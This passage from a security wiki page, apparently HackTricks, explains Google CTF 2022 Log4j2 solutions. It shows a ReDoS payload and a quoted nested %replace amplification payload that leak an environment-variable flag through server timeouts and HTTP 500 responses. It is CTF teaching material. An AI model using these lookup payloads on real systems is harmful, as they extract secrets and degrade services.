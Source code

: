 As it was mentioned in the previous section, **`%replace`** supports **regexes**. So it's possible to use payload from the [**ReDoS page**](../regular-expression-denial-of-service-redos.md) to cause a **timeout** in case the flag is found.\
For example, a payload like `%replace{${env:FLAG}}{^(?=CTF)((.`_`)`_`)*salt$}{asd}` would trigger a **timeout** in that CTF.

In this [**writeup**](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/), instead of using a ReDoS attack it used an **amplification attack** to cause a time difference in the response:

> ```
> /%replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{
> %replace{${ENV:FLAG}}{CTF\{" + flagGuess + ".*\}}{#############################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> }{#}{######################################################}
> ```
>
> If the flag starts with `flagGuess`, the whole flag is replaced with 29 `#`-s (I used this character because it would likely not be part of the flag). **Each of the resulting 29 `#`-s is then replaced by 54 `#`-s**. This process is repeated **6 times**, leading to a total of ` 29*54*54^6* =`` `` `**`96816014208`  `#`-s!**
>
> Replacing so many `#`-s will trigger the 10-second timeout of the Flask application, which in turn will result in the HTTP status code 500 being sent to the user. (If the flag does not start with `flagGuess`, we will receive a non-500 status code)

## References

* [https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/](https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/)
* [https://www.bleepingcomputer.com/news/security/all-log4j-logback-bugs-we-know-so-far-and-why-you-must-ditch-215/](https://www.bleepingcomputer.com/news/security/all-log4j-logback-bugs-we-know-so-far-and-why-you-must-ditch-215/)
* [https://www.youtube.com/watch?v=XG14EstTgQ4](https://www.youtube.com/watch?v=XG14EstTgQ4)
* [https://tryhackme.com/room/solar](https://tryhackme.com/room/solar)
* [https://www.youtube.com/watch?v=Y8a5nB-vy78](https://www.youtube.com/watch?v=Y8a5nB-vy78)
* [https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)
* [https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/](https://intrigus.org/research/2022/07/18/google-ctf-2022-log4j2-writeup/)
* [https://sigflag.at/blog/2022/writeup-googlectf2022-log4j/](https://sigflag.at/blog/2022/writeup-googlectf2022-log4j/)
